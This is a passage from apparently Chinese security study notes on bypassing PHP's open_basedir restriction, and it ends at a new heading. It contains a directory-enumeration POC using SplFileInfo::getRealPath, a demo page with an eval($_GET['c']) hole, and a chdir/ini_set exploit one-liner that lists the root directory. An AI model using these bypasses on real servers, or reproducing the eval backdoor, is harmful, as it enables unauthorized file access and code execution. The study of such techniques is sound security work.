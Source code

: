 这个方法有个特点：**完全没有考虑 open\_basedir**。在传入的路径为一个不存在的路径时，会返回 false；在传入的路径为一个存在的路径时，会正常返回绝对路径。  
所以不像 realpath 需要考虑是否在 open\_basedir 下面的条件

P 神 POC

```php
<?php
ini_set('open_basedir', dirname(__FILE__));
printf("<b>open_basedir: %s</b><br />", ini_get('open_basedir'));
$basedir = 'D:/test/';
$arr = array();
$chars = 'abcdefghijklmnopqrstuvwxyz0123456789';
for ($i=0; $i < strlen($chars); $i++) { 
    $info = new SplFileInfo($basedir . $chars[$i] . '<><');
    $re = $info->getRealPath();
    if ($re) {
        dump($re);
    }
}
function dump($s){
    echo $s . '<br/>';
    ob_flush();
    flush();
}
?>
```

# 利用 chdir 与 ini\_set

首先解释一下**ini\_set**  
[https://www.php.net/manual/zh/function.ini-set](https://www.php.net/manual/zh/function.ini-set)  
这里先放一下 demo network 师傅的

```php
<?php
echo 'open_basedir: '.ini_get('open_basedir').'<br>';
echo 'GET: '.$_GET['c'].'<br>';
eval($_GET['c']);
echo 'open_basedir: '.ini_get('open_basedir');
?>
```

EXP:

```php
mkdir('sub');chdir('sub');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');var_dump(scandir('/'));
```

一些分析：  
[https://skysec.top/2019/04/12/%E4%BB%8EPHP%E5%BA%95%E5%B1%82%E7%9C%8Bopen-basedir-bypass/](https://skysec.top/2019/04/12/%E4%BB%8EPHP%E5%BA%95%E5%B1%82%E7%9C%8Bopen-basedir-bypass/)  
好吧我实在是看不下去底层了...还是功底不够..还得练

# GD 库 imageftbbox/imagefttext
